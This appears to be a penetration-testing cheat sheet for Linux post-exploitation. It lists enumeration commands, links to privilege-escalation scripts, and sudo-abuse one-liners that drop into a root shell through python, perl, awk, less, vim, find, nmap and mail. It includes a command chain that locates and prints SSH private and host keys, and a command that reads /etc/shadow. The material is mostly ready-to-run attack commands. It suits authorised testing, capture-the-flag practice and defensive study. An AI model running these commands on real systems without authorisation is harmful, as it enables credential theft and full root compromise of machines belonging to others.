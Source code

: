 # Linux-Exploitation

## Internal Enumeration

#### ID and location
```
id
pwd
```

#### OS / Version / Architecture
```
cat /etc/*-release
uname -i
uname -a
uname -r
cat /proc/version
hostnamectl | grep Kernel
lsb_release -a (Debian based OSs)
```

#### Packaged installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
```

#### Running services and network services
```
ps aux
netstat -antup
```

#### Network
```
ifconfig
ip addr show
arp -a
```

#### Search a file
```
find . -name "*.txt"
```

#### Read SSH key
```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa

cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```


## Automated enumeration

[https://github.com/rebootuser/LinEnum]
[https://github.com/reider-roque/linpostexp/blob/master/linprivchecker.py]
[http://pentestmonkey.net/tools/audit/unix-privesc-check]
[https://raw.githubusercontent.com/swarley7/linuxprivchecker/master/linuxprivchecker.py]

## Sudoers - Privesc

##### Python
```
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])
```

##### Perl
```
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’
```

##### CP + Chmod
```
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit
```

##### Awk
```
awk 'BEGIN {system("/bin/bash")}'
```

##### Less
```
Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash
```

##### Vim
```
sudo -u victim /usr/bin/vim
puis on tape (pas dans le fichier mais de la même manière que lorsque l'on souhaite quitter vim):
:!/bin/bash
```

##### Find
```
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;
```

##### Bash
```
sudo -u root /bin/bash
```

##### Nmap
```
 sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh
```

##### Mail
```
sudo mail --exec='!/bin/bash'
```
